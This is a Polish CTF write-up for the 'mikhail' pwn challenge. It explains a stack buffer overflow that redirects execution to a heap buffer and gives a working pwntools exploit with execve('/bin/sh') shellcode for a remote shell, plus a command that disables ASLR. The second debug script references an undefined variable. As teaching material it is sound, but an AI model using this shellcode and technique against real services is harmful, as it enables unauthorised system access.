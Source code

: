 # mikhail write-up

## Wykorzystywane narzędzia

- pwntools
- gdb
- pwndbg

## Opis zadania

W tym zadaniu dostajemy binarkę która działa po stronie serwera i źródło w C++.  

programem checksec który instaluje się razem z `pwndbg` można sprawdzić z jakimi zabezpieczeniami program został skompilowany.

```
b@x:~/Desktop/mikhail > checksec story
[*] '/home/b/Desktop/mikhail/story'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      PIE enabled
```

Dla nas istotne są rubryki:  

- `Stack` - mówi nam że na stosie nie ma kanarków
- `NX` - NX jest wyłączone, czyli program może wykonywać instrukcje leżące na stosie lub stercie.
- `PIE` - Za każdym włączeniem programu, plik binarny będzie ładowany pod losowym adresem. Między innymi sekcja kodu


## Szukanie podatności

W kodzie programu można zobaczyć 2 linijki:

```C 
    char password[64];
```
a później: 

```
    pass_len = read(0, password, 1000);
```

Co oznacza że program jest podatny na `buffer overflow` i możemy nadpisać adres powrotu na `A` powodując że program zacznie wykonywać instrukcje z pod adresu `A`. Niestety nic nam to nie daje bo przez `PIE` i `ASLR` nie wiemy gdzie wskoczyć.  

Analizując dalej widzimy taki kod:

```C
    char const *const msg = "Yay! We encrypted your story! It's secret now at ";
    for(i = 0; i < 49; ++i) {
        password[pass_len + i] = msg[i];
    }

    size_t *const ptr = reinterpret_cast<size_t *>(&password[pass_len + 49]);
    *ptr = reinterpret_cast<size_t>(story);
```

który dopisuje do bufora na stosie `password` wiadomość `Yay! We encrypted your story! It's secret now at ` a poźniej jeszcze jest dodawany wskaźnik na bufor `story`. Jest on zapisywany w postaci little-endian.

Oznacza to, że jeśli wybierzemy nasze hasło odpowiedniej długości to wskaźnik na bufor `story` zapisze się w miejscu adresu powrotu z funkcji. Wtedy po wyjściu z funkcji `foo` program zacznie wykonywać instrukcje które sami mu dostarczymy do bufora `story` .

Tylko jak obliczyć długość hasła?  

Po zdisasemblerowaniu binarki (ja użyłam do tego programu `IDA Pro`) można odnaleźć miejsce w którym właśnie jest zapisywny wskaźnik na story:

```
.text:0000000000000A6C                 mov     rax, cs:story
.text:0000000000000A73                 mov     rdx, rax
.text:0000000000000A76                 mov     rax, [rbp+var_30]
.text:0000000000000A7A                 mov     [rax], rdx
```
Za samo wrzucenie wskaźnika do `story` odpowiada instrukcja pod adresem `0000000000000A7A`.  

Spróbujmy podpiąć się debuggerem w to miejsce.

## Debugowanie

Dla ułatwienia debugowania wyłączamy chwilowo ASLR'a:

```
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

Włączmy binarke w gdb:


```
b@x:~/Desktop/mikhail > gdb ./story
```

Ustawiamy breakpoint na `0x555555554a7a`

```
b *0x555555554a7a
```

i na instrukcji `ret` w funkcji `foo`:

```
b *0x555555554aab
```

Możemy teraz urcuhomić program w gdb i podać puste hasło (1-Bajtowe haslo - sam znak nowej lini):
!(imgs/gdb_beginning.png)

!(imgs/rax.png)

Widzimy że przy wysłaniu pustego hasła program nadpisuje adres `0x7fffffffd632`.

!(imgs/returning_from_foo.png)

Tutaj widać że adres powrotu znajduje się pod adresem: `0x7fffffffd678`

Obliczmy róźnicę pomiędzy tymi adresami:

```python
In [1]: 0x7fffffffd678-0x7fffffffd632
Out[1]: 70

```
Trzeba wysłać password dłuższe o 70 znaków czyli sumarycznie 71 znaków. 
Możemy sprawdzić w gdb czy obliczyliśmy wszystko poprawnie (wysyłamy 70 znaków `a` i znak nowej lini:

!(imgs/p1.png)
Na powyższym obrazku widzimy że zapisuje adres na bufor `story` w miejsce które przechowuje adres powrotu.

!(imgs/p2.png)

Po kontynuowaniu wykonywania programu w gdb widzimy że program wywalił się na próbie wykonywania instrukcji ze sterty, co oznacza że próbował wykonać instukcje z bufora `story`

## Piszemy exploita

Możemy uruchomić binarkę u siebie tak aby nasłuchiwała na porcie 1337 i przekierowywała stdin i stdout na socket:

```b@x:~/Desktop/mikhail > socat TCP-LISTEN:1337,reuseaddr,fork EXEC:./story```

W ten sposób uruchamiane są zadania kategori CTF na serwerach które trzeba zpwownować

Pozostało nam jeszcze tylko wstawienie shellcodu do bufora story (musimy go jeszcze zxorować z buforem password, bo później w aplikacji jest xorowanie jeszcze raz). Poszukujemy shellcodu `execve("/bin/sh",0,0)` lub podobnego. Shellcody możemy znaleźć np. na exploit-db.com, wygenerować metasploitem, lub uzyć [shellcraft z pwntools](http://docs.pwntools.com/en/stable/shellcraft.html)

exploit znajduje się poniżej:  

```python

from pwn import *

r = remote('localhost',1337)
def get_shellcode_execve():
    return "\x48\x31\xc0\x48\x83\xc0\x3b\x48\x31\xff\x57\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x8d\x3c\x24\x48\x31\xf6\x48\x31\xd2\x0f\x05"

shellcode =  get_shellcode_execve()
 

print r.recvuntil("story:")
r.send(xor(shellcode,'e'))
print r.recvuntil("password:")


payload = "e"*71
r.send(payload)
r.interactive()

```


Po zamienieniu `localhost` na adres serwera i zmienieniu portu, exploit również zadziała. Możemy teraz wpisać np. `ls`.  


A jeśli coś nam nie działa to możemy debugować exploita w taki sposób:

```python
from pwn import *


commands = [
  "bp 0x555555554aab",
  "c"
]

gdb.debug('story',gdbscript="\n".join(commands))

def get_shellcode_execve():
    return "\x48\x31\xc0\x48\x83\xc0\x3b\x48\x31\xff\x57\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x8d\x3c\x24\x48\x31\xf6\x48\x31\xd2\x0f\x05"

shellcode =  get_shellcode_execve()
 

print r.recvuntil("story:")
r.send(xor(shellcode,'e'))
print r.recvuntil("password:")


payload = "e"*71
r.send(payload)
r.interactive()
```

Powinno to nam dodatkowo uruchomić dodatkowe okno z gdb. Musimy mieć na uwadze to, że jeśli uruchamiamy proces w gdb to on automatycznie wyłącza ASLRa i PIE.


 
